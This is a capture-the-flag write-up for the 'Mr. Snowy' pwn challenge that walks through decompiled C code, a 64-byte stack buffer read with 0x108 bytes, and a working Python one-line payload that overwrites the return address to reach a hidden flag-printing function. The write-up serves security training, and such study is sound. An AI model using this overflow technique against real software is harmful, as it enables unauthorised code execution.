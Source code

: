 # Pwn :: Mr. Snowy

*There is ❄️ snow everywhere!! Kids are playing around, everything looks amazing. But, this ☃️ snowman... it scares me.. He is always 👀 staring at Santa's house. Something must be wrong with him.*

### Challenge Files: [pwn_mr_snowy.zip](pwn_mr_snowy.zip)

For this challenge, we are provided with an executable, **mr_snowy**, an example flag.txt, and also a networked service to connect to. Running the program shows a little text adventure game involving a snowman that is a little *sus*. However, you find that basically any available choice runs into a deadend. So there has to be some way to get where we wanna be.

![mr_snowy](img/1.png)

Opening the executable in Ghidra, we can see a function called **deactivate_camera()** that prints the flag, however it is not referenced anywhere else in the program.

```c 
void deactivate_camera(void)

{
  char acStack104 [48];
  FILE *local_38;
  char *local_30;
  undefined8 local_28;
  int local_1c;
  
  local_1c = 0x30;
  local_28 = 0x2f;
  local_30 = acStack104;
  local_38 = fopen("flag.txt","rb");
  if (local_38 == (FILE *)0x0) {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n",1,0x3f,stdout);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  fgets(local_30,local_1c,local_38);
  puts("\x1b[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ",1,0x3a,stdout);
  puts(local_30);
  fclose(local_38);
  return;
}
```

So this seems like a classic target for a buffer overflow to redirect execution to the target function.

The vulnerability comes in the **investigate()** function, where the program tries to read 264 bytes from stdin into a buffer that is only 64 bytes:

```c 
void investigate(void)

{
  int iVar1;
  char local_48 [64];  // <-------- buffer
  
  fflush(stdout);
  printstr(&DAT_00401878);
  fflush(stdout);
  read(0,local_48,0x108);    // <--------- too big
  iVar1 = atoi(local_48);
  if (iVar1 == 1) {
    puts("\x1b[1;31m");
    printstr("[!] You do not know the password!\n[-] Mission failed!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  iVar1 = atoi(local_48);
  if (iVar1 == 2) {
    puts("\x1b[1;31m");
    printstr(
            "[!] This metal seems unbreakable, the elves seem to have put a spell on it..\n[-] Mission failed!\n"
            );
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  fflush(stdout);
  puts("\x1b[1;31m");
  fflush(stdout);
  puts("[-] Mission failed!");
  fflush(stdout);
  return;
}
```

So the payload needs to go to the investigate menu, overflow the buffer, and then redirect the return to the target function which is at 0x401165 (they're nice and don't use ASLR)

For this I used:

```
python3 -c "print('1\x00'+'A'*64+'\x00'*8+'\x65\x11\x40\x00',end='')" | ./mr_snowy
```

The first 1 and null byte are since the first read function only reads two bytes and advance us to the next menu, then we fill the buffer, plus 8 bytes to reach the return address, and then our target address function in reverse byte order. Notice I made sure not to print a newline (since that goes to the payload as well).

![mr_snowy](img/2.png)

Sending this same payload to the network service we're trying to pwn, has the same result but gives us the real flag:

![mr_snowy](img/3.png)

```HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh} ```
